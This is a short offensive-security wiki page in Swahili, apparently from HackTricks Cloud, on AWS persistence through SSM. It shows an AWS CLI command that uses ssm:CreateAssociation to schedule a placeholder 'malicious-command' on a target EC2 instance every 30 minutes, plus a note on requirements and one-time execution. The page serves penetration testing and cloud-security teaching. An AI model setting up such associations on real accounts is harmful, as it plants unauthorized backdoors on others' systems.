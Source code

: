# AWS - SSM Perssitence

{{#include ../../../banners/hacktricks-training.md}}

## SSM

Kwa maelezo zaidi angalia:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### Kutumia ssm:CreateAssociation kwa ajili ya kudumu

Mshambuliaji mwenye ruhusa **`ssm:CreateAssociation`** anaweza kuunda Mshikamano wa Meneja wa Jimbo ili kutekeleza amri kiotomatiki kwenye mifano ya EC2 inayosimamiwa na SSM. Mshikamano huu unaweza kuwekwa ili kufanyika kwa muda maalum, na kuifanya iweze kutumika kama kudumu kwa njia ya nyuma bila vikao vya mwingiliano.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> Njia hii ya kudumu inafanya kazi mradi tu EC2 instance inasimamiwa na Systems Manager, SSM agent inafanya kazi, na mshambuliaji ana ruhusa ya kuunda ushirikiano. Haihitaji vikao vya mwingiliano au ruhusa za wazi za ssm:SendCommand. **Muhimu:** Parameta ya `--schedule-expression` (mfano, `rate(30 minutes)`) inapaswa kuheshimu kiwango cha chini cha AWS cha dakika 30. Kwa utekelezaji wa haraka au wa mara moja, acha kabisa `--schedule-expression` — ushirikiano utafanyika mara moja baada ya kuundwa.

{{#include ../../../banners/hacktricks-training.md}}
